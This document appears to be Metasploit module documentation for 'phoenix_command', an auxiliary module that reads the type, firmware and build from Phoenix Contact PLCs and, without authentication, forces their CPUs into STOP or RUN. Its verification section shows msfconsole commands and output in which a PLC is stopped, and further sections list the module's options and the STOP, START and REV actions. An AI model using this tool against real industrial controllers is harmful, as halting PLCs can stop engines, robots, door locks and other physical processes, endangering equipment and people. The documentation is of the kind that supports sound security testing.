 PhoenixContact Programmable Logic Controllers are built are using a variant of
ProConOS. The communicate using a proprietary protocol over ports TCP/1962 and
TCP/41100 or TCP/20547.  This protocol allows a user to remotely determine the
PLC type, firmware and build number on port TCP/1962.  A user can also
determine the CPU State (Running or Stopped) and start or stop the CPU.

This functionality is confirmed for the PLC series ILC 15x and 17x on TCP port
20547, and for the ILC 39x series on TCP port 41100. Other series may or
may not work, but there is a good chance that they will

## Vulnerable Application

This is a hardware zero-day vulnerability that CANNOT be patched. Possible
mitigations include: pulling the plug (literally), using network isolation
(Firewall, Router, IDS, IPS, network segmentation, etc...) or not allowing bad
people on your network.

Most, if not all, PLC's (computers that control engines, robots, conveyor
belts, sensors, camera's, doorlocks, CRACs ...) have vulnerabilities where,
using their own tools, remote configuration and programming can be done
*WITHOUT* authentication.  Investigators and underground hackers are just now
creating simple tools to convert the, often proprietary, protocols into simple
scripts.  The operating word here is proprietary. Right now, the only thing
stopping very bad stuff from happening.  PhoenixContact uses an (unnamed?)
low-level protocol for connection, information exchange and configuration of
its PLC devices.  This script utilizes that protocol for finding information
and switching the PLC mode from STOP to RUN and vice-versa.

## Verification Steps

The following demonstrates a basic scenario, we "found" two devices with an open port TCP/1962:

```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST 10.66.56.12
RHOST => 10.66.56.12
msf auxiliary(phoenix_command) > run

[*] 10.66.56.12:0 - PLC Type = ILC 150 GSM/GPRS
[*] 10.66.56.12:0 - Firmware = 3.71
[*] 10.66.56.12:0 - Build    = 07/13/11 12:00:00
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> Detected 15x/17x series, getting current CPU state:
[*] 10.66.56.12:0 - CPU Mode = RUN
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> No action specified (NOOP), stopping here
[*] Auxiliary module execution completed

msf auxiliary(phoenix_command) > set RHOST 10.66.56.72
RHOST => 10.66.56.72
msf auxiliary(phoenix_command) > set ACTION REV
ACTION => REV
msf auxiliary(phoenix_command) > run
[*] 10.66.56.72:0 - PLC Type = ILC 390 PN 2TX-IB
[*] 10.66.56.72:0 - Firmware = 3.95
[*] 10.66.56.72:0 - Build    = 02/14/11 14:04:47
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Detected 39x series, getting current CPU state:
[*] 10.66.56.72:0 - CPU Mode = RUN
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Sending STOP now
[*] 10.66.56.72:0 - CPU Mode = STOP
[*] Auxiliary module execution completed
```

## Module Options
```
msf auxiliary(phoenix_command) > show options

Module options (auxiliary/admin/scada/phoenix_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     NOOP             yes       PLC CPU action, REV means reverse state (Accepted: STOP, START, REV, NOOP)
   RHOST                       yes       The target address
   RINFOPORT  1962             yes       Set info port
   RPORT                       no        Set action port, will try autodetect when not set
```

By default, the module only reads out the PLC Type, Firmware version, Build
date and current CPU mode (RUNing or STOPed)

The first three pieces of data (Type, Firmware & Build) are always found on
port TCP/1962 (there is no way of changing that port on the PLC, so also no
reason to change the 'RINFOPORT' option)

The CPU mode uses a TCP port depending on the PLC Type, the module will
automatically detect the type and port to use, but can be overridden with the
'RPORT' option, however no real reason to configure it. If you accidentally set RPORT, you can unset it with the ```unset RPORT``` command.

**The ACTION option**

Action has four possible values:

By default, the module will do nothing to the PLC, therefore No Operation or 'NOOP':

```
msf auxiliary(phoenix_command) > set ACTION NOOP
```

The PLC can be forced to go into STOP mode, meaning it stops all execution and all outputs are set to low:

```
msf auxiliary(phoenix_command) > set ACTION STOP
```

The PLC can be forced to go into RUN mode, where it keeps running it was or it will start executing its current boot programming:

```
msf auxiliary(phoenix_command) > set ACTION START
```

The module can also just read out the CPU mode and then reverse whatever it finds, RUN becomes STOP, STOP becomes RUN:

```
msf auxiliary(phoenix_command) > set ACTION REV
```
